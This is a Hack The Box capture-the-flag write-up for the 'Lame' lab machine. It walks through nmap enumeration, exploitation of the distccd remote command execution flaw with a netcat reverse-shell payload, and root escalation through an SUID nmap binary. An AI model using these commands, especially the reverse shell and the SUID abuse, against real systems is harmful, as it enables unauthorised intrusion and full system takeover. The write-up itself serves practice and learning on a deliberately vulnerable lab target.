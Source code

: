 # HTB-Writeups

## Lame


   ![image of bashed](/assets/lamepic.png)


### Enumeration (Information Gathering):
Starting off with an nmap scan to check which ports are open:
1. 21 - ftp
2. 22 - ssh
3. 139, 445 - smb (netbios)

After doing a full port scan using:
`nmap -sC -sV -oA nmap/lamefull 10.10.10.3 --max-retries 0`, we get:


![nmap scan](/assets/Lamenmap.png)



Ports open after **full port** scan:
1. 21 - ftp
2. 22 - ssh
3. 139, 445 - smb

As we can see that port **21/ftp** is open, we can try and connect to it via ftp:
`ftp 10.10.10.3`
After enumerating the ftp server, we could not find anything interesting.
Check out the ftp, ssh, smb versions to see if they are vulnerable, and after googling we find out that they aren't vulnerable.
But after checking out port 3432 distccd, we found that it is vulnerable to a Remote Command Execution. There seems to be an nmap script avaiable for this vulnerability.
There is an nmap script avaiable for this and you can find it here:
[distcc-cve2004-2687 - RCE](https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html)

### Exploitation

Using the nmap script:
`sudo nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd=cmd"`

Putting out reverse shell payload in place of the cmd argument:
cmd = `/bin/nc -e /bin/sh 10.10.14.9 4445`

Setting up a Netcat listener on our attack machine to catch the shell:
`sudo nc -nlvp 4445`

After executing nmap script, we have successfully got a Reverse shell:

![lame rev shell](/assets/lamerevshell.png)

And we have the **USER SHELL!!!!**

Hence, we can grab the user flag from the directory: /home/makis/

### Privilege Escalation
Running our basic commands for privilege escalation such as checking for sudo rights, checking the kernel, OS version, checking if we belong to any admin groups, etc.
As we find nothing from basic enumeration, we setup a Python Web Server on our machine and get the LinEnum.sh script on our host machine.
Using `wget http://10.10.14.2/LinEnum.sh` to download the script and running `chmod +x LinEnum.sh` to make it executable.

After running the script we see that we have the suid bit enabled on the nmap binary.
SUID bit enabled means that if a file's SUID bit is enabled we can run that file as root.
![nmap suid bit enabled](/assets/privesc.png)

Using nmap in interactive mode:
`sudo nmap --interactive` (important to use sudo as we want to execute the binary as root)
Now running !sh to run bash from nmap.

![root user](/assets/root.png)

And we have got **ROOT!!!!**

